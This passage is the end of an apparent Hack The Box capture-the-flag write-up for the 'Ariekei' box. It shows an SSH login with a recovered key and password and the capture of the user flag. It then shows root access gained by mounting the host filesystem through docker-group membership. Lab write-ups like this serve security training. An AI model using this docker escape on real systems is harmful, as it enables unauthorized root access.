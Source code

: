 And we got a password! `purple1`

We then ssh as the user `spanishdancer`(the home dir of where we found the ssh key in belonged to this user)
```bash
kali@kali:~/boxes/ariekei$ ssh -i id_rsa spanishdancer@10.10.10.65
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.10.65 (10.10.10.65)' can't be established.
ECDSA key fingerprint is SHA256:00QUDuqn+W8071V5kz4hM6rnINCedq8xiLh4igg9+XM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.65' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Mon Nov 13 10:23:41 2017 from 10.10.14.2
spanishdancer@ariekei:~$ ls
content  user.txt
spanishdancer@ariekei:~$ cat user.txt
ff0bca827a5f660f6d35df7481e5f216
```
Running `id` confirms that the user is part of a docker group, we will see if we can exploit this.
```bash
spanishdancer@ariekei:~$ id
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)
spanishdancer@ariekei:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
waf-template        latest              399c8876e9ae        2 years ago         628MB
bastion-template    latest              0df894ef4624        2 years ago         251MB
web-template        latest              b2a8f8d3ef38        2 years ago         185MB
bash                latest              a66dc6cea720        2 years ago         12.8MB
convert-template    latest              e74161aded79        4 years ago         418MB
```
It shows that the user is part of the docker gorup, this is often used because they give access to users in a dedicated group to run commands as root for docker as docker needs root privelages, this makes priv esc simple as we simply use the docker image as a template to priv esc  
```bash
spanishdancer@ariekei:~$ docker run -v /:/rootexploit -i -t bash
bash-4.4# ls
bin          etc          lib          mnt          root         run          srv          tmp          var
dev          home         media        proc         rootexploit  sbin         sys          usr
bash-4.4# cd rootexploit
bash-4.4# ls
bin         dev         home        lib         lost+found  mnt         proc        run         snap        sys         usr         vmlinuz
boot        etc         initrd.img  lib64       media       opt         root        sbin        srv         tmp         var
bash-4.4# cd root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
0385b6629b30f8a673f7bb279fb1570b
bash-4.4#
```
And there we get our root shell, Thanks for reading hoep you enjoyed.

